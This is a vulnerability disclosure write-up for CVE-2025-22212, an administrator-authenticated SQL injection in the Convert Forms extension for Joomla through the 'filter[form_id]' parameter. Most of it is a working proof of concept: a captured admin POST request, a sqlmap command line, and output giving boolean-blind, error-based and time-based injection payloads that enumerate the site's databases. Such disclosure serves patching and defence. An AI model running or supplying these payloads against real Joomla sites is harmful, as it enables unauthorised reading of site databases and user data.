

# CVE-2025-22212: SQL injection in Convert Forms for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22212

**Convert Forms:** https://extensions.joomla.org/extension/convert-forms/

## Introduction
An authenticated (administrator) SQL injection (SQLi) vulnerability exists in the Convert Forms extension for Joomla (v4.3.3) via the 'filter[form_id]' parameter in the appointment contact form.

## POC
To exploit this vulnerability, go to 'Convert Forms >> Submissions >> Select Form >> Appointment Form (Unpublished Form) (1) >> search = test', click "search" and save the request in Burp Suite (req.txt).



**HTTP Request:**
```
POST /administrator/index.php?option=com_convertforms&view=conversions HTTP/1.1
Host: localhost:8080
Content-Length: 550
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_convertforms&view=conversions
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; c746293156f560164ea71d168e5eb505=185f350a58725560d05ead66c402b552
Connection: keep-alive

filter%5Bsearch%5D=test&list%5Bfullordering%5D=a.id+DESC&list%5Blimit%5D=20&filter%5Bform_id%5D=1&filter%5Bperiod%5D=today&filter%5Bcreated_from%5D=&filter%5Bcreated_to%5D=&filter%5Bstate%5D=1&filter%5Bcolumns%5D%5B%5D=id&filter%5Bcolumns%5D%5B%5D=created&filter%5Bcolumns%5D%5B%5D=param_name&filter%5Bcolumns%5D%5B%5D=param_phone&filter%5Bcolumns%5D%5B%5D=param_email&filter%5Bcolumns%5D%5B%5D=param_comments&filter%5Bcolumns%5D%5B%5D=user_id&filter%5Bcolumns%5D%5B%5D=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --batch --dbs --dbms=mysql -p 'filter[form_id]'
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: filter[form_id] (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=(SELECT (CASE WHEN (2790=2790) THEN 1 ELSE (SELECT 7529 UNION SELECT 2507) END))&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=1 AND GTID_SUBSET(CONCAT(0x7176787871,(SELECT (ELT(4243=4243,1))),0x7178707671),4243)&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=1 AND (SELECT 2967 FROM (SELECT(SLEEP(5)))daVE)&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
